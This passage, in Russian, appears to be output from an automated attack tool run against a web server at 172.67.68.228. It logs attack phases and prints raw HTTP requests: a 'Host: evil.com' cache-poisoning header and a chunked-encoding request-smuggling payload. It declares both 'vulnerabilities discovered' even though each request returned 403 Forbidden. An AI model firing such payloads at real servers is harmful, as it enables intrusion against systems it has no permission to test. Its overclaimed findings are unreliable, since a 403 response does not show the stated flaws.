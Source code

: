 **Критический анализ:**
Цель демонстрирует классические признаки неправильной валидации заголовков и слабой конфигурации прокси/WAF.

### 🕐 **ФАЗА 3: ГЕНЕРАЦИЯ ВЕКТОРОВ АТАК (T+0.28s)**
```
[19:31:45] 🧠 Phase 2: Real-time attack vector generation
[19:31:45] Generating host confusion vectors...
[19:31:45] Creating header injection payloads...
[19:31:45] Building method override chains...
[19:31:45] Preparing smuggling techniques...
```

**Сгенерированные векторы:**
1. **Cache Poisoning via Host Header**
   - Тип: cache_poisoning
   - Техника: host_header_injection
   - Полезная нагрузка: `Host: evil.com`

2. **Protocol Smuggling**
   - Тип: smuggling
   - Техника: http_desync
   - Полезная нагрузка: `Transfer-Encoding: chunked\r\nContent-Length: 0`

### 🕐 **ФАЗА 4: АДАПТИВНОЕ ВЫПОЛНЕНИЕ (T+0.45s - T+1.20s)**
```
[19:31:45] ⚡ Phase 3: Adaptive payload execution with learning
[19:31:45] Testing attack vector: Cache Poisoning via Host
[19:31:45] 🎯 VULNERABILITY DISCOVERED! Type: cache_poisoning
[19:31:45] Testing attack vector: Protocol Smuggling
[19:31:45] 🎯 VULNERABILITY DISCOVERED! Type: smuggling
[19:31:46] 🔥 IMPROVED EXPLOIT GENERATED! Confidence: 0.7
```

#### **УЯЗВИМОСТЬ #1: CACHE POISONING**
- **Время обнаружения:** T+0.67s
- **HTTP Запрос:**
  ```http
  GET / HTTP/1.1
  Host: evil.com
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
  ```
- **HTTP Ответ:** 403 Forbidden
- **Анализ:** Сервер обработал заголовок Host, но вернул 403, указывая на потенциальное отравление кэша
- **Уровень доверия:** 0.5 (Средне-высокий)

#### **УЯЗВИМОСТЬ #2: HTTP REQUEST SMUGGLING**
- **Время обнаружения:** T+1.12s
- **HTTP Запрос:**
  ```http
  GET / HTTP/1.1
  Host: 172.67.68.228
  Transfer-Encoding: chunked
  Content-Length: 0
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
  ```
- **HTTP Ответ:** 403 Forbidden
- **Анализ:** Конфликтующие заголовки обработаны, указывая на десинхронизацию HTTP
- **Уровень доверия:** 0.7 (Высокий)
